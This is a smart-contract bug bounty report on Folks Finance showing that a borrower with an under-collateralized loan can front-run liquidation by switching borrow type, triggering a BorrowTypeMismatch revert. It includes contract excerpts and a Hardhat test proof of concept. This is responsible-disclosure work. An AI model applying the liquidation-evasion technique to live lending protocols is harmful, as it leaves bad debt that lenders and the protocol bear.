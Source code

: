 
# Violator can deny his liquidation by front running it and changing the loan borrow type

Submitted on Fri Jul 26 2024 03:25:51 GMT-0400 (Atlantic Standard Time) by @zarkk for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33670

Report type: Smart Contract

Report severity: Insight

Target: https://testnet.snowtrace.io/address/0x2cAa1315bd676FbecABFC3195000c642f503f1C9

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
Any violator with under-collateralized loan can front run his liquidation and change borrow type (from stable to variable and vice versa) and prevent it from happening for as long as he wants/needs.

## Vulnerability Details
When someone creates a loan, he has to specify whether he wants to borrow with stable or variable terms by setting the ```stableInterestRate``` accordingly (0 for variable, >0 for stable). In the same way, if this loan becomes under-collateralized and liquidatable, the liquidator has to has a loan of the same borrow type (variable/stable), so the debt of the violator to be transferred to him. We can see this check in ```prepareLiquidation()``` function of ```LiquidationLogic``` library here :
```solidity
function prepareLiquidation(
        // ...
    ) external returns (DataTypes.LoanLiquidityParams memory violatorLiquidity) {
        // ...

        // if applicable, check borrows are compatible
        LoanManagerState.UserLoanBorrow storage violatorLoanBorrow = violatorLoan.borrows[borrPoolId];
        LoanManagerState.UserLoanBorrow storage liquidatorLoanBorrow = liquidatorLoan.borrows[borrPoolId];
        bool isViolatorStableBorrow = violatorLoanBorrow.stableInterestRate > 0;
        bool isLiquidatorStableBorrow = liquidatorLoanBorrow.stableInterestRate > 0;
@>        if (liquidatorLoanBorrow.amount > 0 && isViolatorStableBorrow != isLiquidatorStableBorrow)
            revert BorrowTypeMismatch(loansParams.violatorLoanId, loansParams.liquidatorLoanId, borrPoolId);

        // ....
    }
```
Also, Folks protocol provides the functionality to any borrower to change his borrow type for his loan by calling the ```switchBorrowType``` function in ```Hub``` contract and change from stable to variable borrowing and vice versa. We can this here :
```solidity
function _receiveMessage(Messages.MessageReceived memory message) internal override {
        Messages.MessagePayload memory payload = Messages.decodeActionPayload(message.payload);
       
        /// ...

        // switch on payload action
        uint256 index = 0;
        if (payload.action == Messages.Action.CreateAccount) {
            // ...
        } else if (payload.action == Messages.Action.SwitchBorrowType) {
            bytes32 loanId = payload.data.toBytes32(index);
            index += 32;
            uint8 poolId = payload.data.toUint8(index);
            index += 1;
            uint256 maxStableRate = payload.data.toUint256(index);

@>            loanManager.switchBorrowType(loanId, payload.accountId, poolId, maxStableRate);
        } else {
            revert CannotReceiveMessage(message.messageId);
        }

        // ...

        }
    }
```
The vulnerability arises from the fact that there is no check in the whole ```switchBorrowType``` flow that checks if the specific loan is under-collateralized.

This opens the door for a critical vulnerability where a violator with an under-collateralized loan can "toggle" from stable to variable type calling ```switchBorrowType```, every time someone tries to liquidate him. As a result of front running his liquidation and switching borrow type, the validator can assure that he will never be liquidated, since his liquidation will revert on the ```BorrowTypeMismatch``` which was shown at the start of the report.

## Impact Details
This vulnerability poses a critical risk to the protocol's financial health by allowing the accumulation of bad debt. As under-collateralized loans remain open and potentially worsen without the possibility of liquidation, the protocol could amass significant uncollectable debt. Over time, this accumulation of bad debt could exceed the protocol's available assets, leading to insolvency. 

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/Hub.sol#L277
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/logic/LiquidationLogic.sol#L127

        
## Proof of concept
## Proof of Concept
Add this test in ```LoanManager.test.ts``` under ```Liquidate``` section and run ```npm run test``` : 
```solidity
it.only("Should fail to liquidate because borrower changed the borrow type just before the liquidation", async () => {
      const {
        hub,
        loanManager,
        loanManagerAddress,
        oracleManager,
        pools,
        loanId: violatorLoanId,
        accountId,
        loanTypeId,
      } = await loadFixture(depositEtherAndVariableBorrowUSDCFixture);

      // Create Liquidator loan which will be Variable borrow type
      const liquidatorLoanId = getRandomBytes(BYTES32_LENGTH);
      const liquidatorAccountId = getAccountIdBytes("LIQUIDATOR_ACCOUNT_ID");
      const liquidatorLoanName = getRandomBytes(BYTES32_LENGTH);
      await loanManager
        .connect(hub)
        .createUserLoan(liquidatorLoanId, liquidatorAccountId, loanTypeId, liquidatorLoanName);

      // Deposit USDC in the Liquidator loan.
      const liquidatorDepositAmount = BigInt(1000e6);
      const liquidatorDepositFAmount = liquidatorDepositAmount;
      const liquidatorDepositInterestIndex = BigInt(1e18);
      const usdcPrice = BigInt(1e18);
      await pools.USDC.pool.setDepositPoolParams({
        fAmount: liquidatorDepositFAmount,
        depositInterestIndex: liquidatorDepositInterestIndex,
        priceFeed: { price: usdcPrice, decimals: pools.USDC.tokenDecimals },
      });
      await loanManager
        .connect(hub)
        .deposit(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorDepositAmount);

      // Borrow USDC in liquidator loan.
      const oldLiquidatorVariableInterestIndex = BigInt(1.1e18);
      const stableInterestRate = BigInt(0.1e18);
      await pools.USDC.pool.setBorrowPoolParams({
        variableInterestIndex: oldLiquidatorVariableInterestIndex,
        stableInterestRate,
      });
      const liquidatorBorrowAmount = BigInt(50e6);
      await loanManager
        .connect(hub)
        // We passing stableInterestRate : 0, so BorrowType is VariableBorrow so to match the BorrowType of the ViolatorLoan.
        .borrow(liquidatorLoanId, liquidatorAccountId, pools.USDC.poolId, liquidatorBorrowAmount, 0);

      // Prepare for liquidation
      const ethNodeOutputData = getNodeOutputData(BigInt(1000e18));
      await oracleManager.setNodeOutput(pools.ETH.poolId, pools.ETH.tokenDecimals, ethNodeOutputData);

      // But violator front-runned the liquidator and changed his BorrowType from Variable to Stable so to revert the liquidation.
      const switchBorrowType = await loanManager
        .connect(hub)
        .switchBorrowType(violatorLoanId, accountId, pools.USDC.poolId, BigInt(0.1e18));

      // Trying to liquidate.
      const repayAmount = BigInt(1);
      const minSeizedAmount = BigInt(0);
      const liquidate = loanManager
        .connect(hub)
        .liquidate(
          violatorLoanId,
          liquidatorLoanId,
          liquidatorAccountId,
          pools.ETH.poolId,
          pools.USDC.poolId,
          repayAmount,
          minSeizedAmount
        );
      const liquidationLogic = await ethers.getContractAt("LiquidationLogic", loanManagerAddress);
      await expect(liquidate)
        .to.be.revertedWithCustomError(liquidationLogic, "BorrowTypeMismatch")
        .withArgs(violatorLoanId, liquidatorLoanId, pools.USDC.poolId);
    });
```
